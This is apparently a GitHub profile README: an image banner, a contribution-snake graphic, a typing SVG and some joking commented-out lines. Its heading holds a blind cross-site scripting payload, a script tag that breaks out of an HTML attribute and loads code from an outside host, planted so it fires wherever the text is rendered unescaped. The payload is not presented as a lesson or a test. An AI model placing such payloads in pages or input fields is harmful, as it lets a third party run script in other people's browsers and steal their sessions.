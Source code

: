
<h1>

```
"><script src=https://dawadi.bxss.in></script>
```
</h1>
<!-- START -->

<!-- <img alt="My GitHub stats" src="https://github-readme-stats.vercel.app/api?username=shaeinst&count_private=true&show_icons=true&theme=dark" align="right" width="50%" /> -->

<!-- - I had no life
- I have no life
- I will have no life -->

<!-- contribution snake -->
<p align="center">
    <img alt="contribution snake" width="85%" src="https://raw.githubusercontent.com/shaeinst/shaeinst/output/github-contribution-grid-snake.svg" />
</p>
<br>
<p  align="center">
<img alt="Typing SVG" src="https://readme-typing-svg.herokuapp.com?size=18&center=true&vCenter=true&lines=This+line+is+cool%2C+isn't++it%3F;here+is+the+second+line.;now%2C+please+stop+reading+me!"/>
</p>

